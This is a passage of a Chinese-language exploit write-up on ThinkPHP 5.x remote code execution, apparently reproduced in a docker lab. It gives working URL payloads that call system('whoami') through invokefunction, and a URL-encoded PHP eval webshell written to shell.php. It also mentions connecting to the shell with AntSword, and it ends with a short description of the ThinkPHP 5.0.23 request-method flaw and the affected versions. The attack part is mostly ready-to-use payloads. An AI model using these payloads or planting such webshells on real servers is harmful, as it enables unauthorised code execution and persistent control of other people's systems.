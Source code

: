 #### 任意代码执行

```php
/index.php?s=index/think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=system&amp;vars[1][]=whoami
```

![image-20210516212706895](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0f2123cb301d950afc7024d28ea5b5dc14478a67.png)

![image-20210516212729751](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-030469dcfbcd8cb4af4798c9744a509253b7f3b0.png)

#### 写入webshell

```php
&lt;?php e val($_POST['a']);?&gt;URL编码%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%61%27%5d%29%3b%3f%3e
```

![image-20210516212512972](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-42afe6fecf536da539ab950a57ae8564d5ccc48f.png)

最后的payload--&gt;shell.php

```php
/index.php?s=/index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=file_put_contents&amp;vars[1][]=shell.php&amp;vars[1][]=%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%61%27%5d%29%3b%3f%3e
```

写入成功

![image-20210516212757138](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-16897bea66ee29b86cc120000c3456cf07c773f6.png)

去docker底层看一下

![image-20210516213253882](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5054d61c0695de115e7f217ecff1996a8536f94d.png)

蚁剑连接

![image-20210516212911974](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e13e862b23960c1e16869674dc564a074af142b7.png)

### Thinkphp5.0.23远程代码执行漏洞

#### 漏洞原理

ThinkPHP是在中国使用极为广泛的PHP开发框架。在其版本5.0（&lt;5.0.24）中，框架在获取请求方法时会错误地对其进行处理，就是在获取 method的方法中没有正确处理方法名，这使攻击者可以调用 Request类的任何方法，攻击者可以调用 Request类任意方法并构造利用链，从而导致远程代码执行漏洞

#### 影响版本

```php
Thinkphp5.0.0~5.0.23
```

#### 影响版本

```php
Thinkphp 5.0.0~ 5.0.23
```
